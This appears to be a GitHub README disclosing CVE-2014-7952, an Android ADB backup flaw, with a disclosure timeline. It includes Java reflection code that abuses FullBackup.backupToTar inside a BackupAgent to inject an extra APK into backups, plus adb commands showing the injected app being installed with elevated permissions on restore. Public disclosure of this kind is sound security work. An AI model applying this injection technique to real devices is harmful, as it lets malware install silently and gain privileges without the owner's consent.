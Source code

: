 # ADB-Backup-APK-Injection
Android ADB backup APK injection vulnerability discovered by and POC created by Imre Rad, SEARCH-LAB Ltd., Hungary.

What is ADB backup/restore?
---------------------------
The Android operating system offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. **The BackupAgent needs no Android permissions.** Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic) with **escalated priviliges**.

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Who is affected?
----------------
The vulnerability resides in the backup mechanism of the Android operating system. Anyone using the adb tool for creating and restoring backups of their handsets might be affected. One could think that command line applications are used by geeks or programmers only, but not necessarily, there are Windows GUI applications which rely on the same technology behind the scenes when creating backups or restoring them.
The malware might come from an innocent looking game without any suspicion as it claims to need no permissions at all. As soon as backup was created, the archive is "infected". The injected application can use any (non-system) permissions, for example starting automatically at boot or sending SMS messages.

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

(You could create a full system backup as well, the exploit would be still successful.)

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Since the backup.ab file already contains the injected application, it will be restored (installed) as well.

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting to hold off publishing as they needed more time for further investigation, but as of today, July 8, 2015 the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android Security Team

2014-07-28: Google refused to treat the issue as a potential threat

...Couple of additional emails in this thread, Google kept investigating the issue and requested holding off the publication

2014-10-13: Asked Google for status update (and requested a cup or a mug for being patient)

2014-10-15: Google answered that the issue did not get fixed in the L release and requested to hold off publishing it. (Got a promise about asking around for a mug)

...Few more ping-pong emails periodically without any new info (neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived


Links
-----
http://www.search-lab.hu/about-us/news/110-android-adb-backup-apk-injection-vulnerability
